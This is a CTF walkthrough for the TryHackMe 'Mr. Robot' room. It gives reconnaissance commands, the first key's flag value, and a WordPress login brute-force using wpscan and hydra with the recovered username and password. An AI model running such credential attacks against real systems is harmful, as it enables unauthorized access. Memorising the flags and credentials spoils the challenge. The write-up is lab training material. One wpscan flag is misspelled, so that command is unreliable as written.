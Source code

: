 ```yaml
---
description: 'https://tryhackme.com/room/mrrobot'
---
```


# Mr. Robot

## INIT

```text
export mrrobot=10.10.177.95
ping $mrrobot

echo "10.10.177.95 mrrobot.thm" >> /etc/hosts
```

## NMAP

```text
nmap -v -sC -sV -O -T5 -p1-65535 mrrobot.thm
```

![](../.gitbook/assets/image%20%28412%29.png)

## GOBUSTER

```text
gobuster dir -u mrrobot.thm -w /usr/share/wordlists/dirb/common.txt -q -t 15 -x php,html,txt
```

![](../.gitbook/assets/image%20%28392%29.png)

## HTTP

![](../.gitbook/assets/image%20%28453%29.png)

* [http://mrrobot.thm/prepare](http://mrrobot.thm/prepare)
* [http://mrrobot.thm/fsociety](http://mrrobot.thm/fsociety)
* [http://mrrobot.thm/inform](http://mrrobot.thm/inform)
* [http://mrrobot.thm/question](http://mrrobot.thm/question)
* [http://mrrobot.thm/wakeup](http://mrrobot.thm/wakeup)
* [http://mrrobot.thm/join](http://mrrobot.thm/join)

![](../.gitbook/assets/image%20%28452%29.png)

Wordpress

![](../.gitbook/assets/image%20%28403%29.png)

![](../.gitbook/assets/image%20%28386%29.png)

### What is key 1?

```text
curl http://mrrobot.thm/key-1-of-3.txt
```

![](../.gitbook/assets/image%20%28387%29.png)

{% hint style="success" %}
073403c8a58a1f80d943455fb30724b9
{% endhint %}

### What is key 2?

```text
curl http://mrrobot.thm/fsocity.dic --output fsocity.dic
```

![](../.gitbook/assets/image%20%28429%29.png)

```text
wpscan --url http://mrrobot.thm --paswords fsocity.dic --usernames 'elliot'
```

![](../.gitbook/assets/image%20%28382%29.png)

![](../.gitbook/assets/image%20%28454%29.png)

```text
hydra -L fsocity.dic  -p test mrrobot.thm http-post-form "/wp-login/:log=^USER^&pwd=^PASS^wp-submit=Log+In:F=Invalid username"
```

{% hint style="success" %}
Username: Elliot

Password: ER28-0652
{% endhint %}

